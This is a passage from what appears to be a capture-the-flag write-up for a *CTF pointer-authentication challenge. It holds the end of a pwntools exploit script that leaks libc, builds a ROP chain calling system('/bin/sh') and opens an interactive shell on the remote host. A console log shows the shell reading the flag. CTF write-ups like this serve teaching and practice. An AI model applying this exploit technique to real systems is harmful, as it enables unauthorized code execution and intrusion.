 ```python
    leak2 = u64(io.recv(8))
    new_gadget = conv(gadget2, leak2)
    add(puts_plt)
    lock(-1)
    auth(-1)
    payload = "a"*0x28
    payload += flat([
        new_gadget, #pc
        0, #x29
        gadget1, #x30
        0, #x19
        1, #x20
        name_addr + 0x20, #x21
        printf_got, #x22
        printf_got, #x23
        printf_got, #x24
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        libcgadget,
        system,
        system,
        binsh,
        binsh
    ])
    io.send(payload)

    io.interactive()

if __name__ == "__main__":
    io = remote(remote_ip, port)
    poc(io)
    pwn(io)
```

## Flag

```console
d4rk_kn1gh7 @ BatMobile  python exp.py
[+] Opening connection to 52.255.184.147 on port 8080: Done
[+] MBruteforcing: Found key: "t5iG"
[*] Libc base -> 0x4000838000
[*] System -> 0x4000878400
[*] Binsh -> 0x400095ecc0
[*] Switching to interactive mode
$ cat flag
*CTF{n0w_y0u_kn0w_p01nter_authent1cat10n}
```
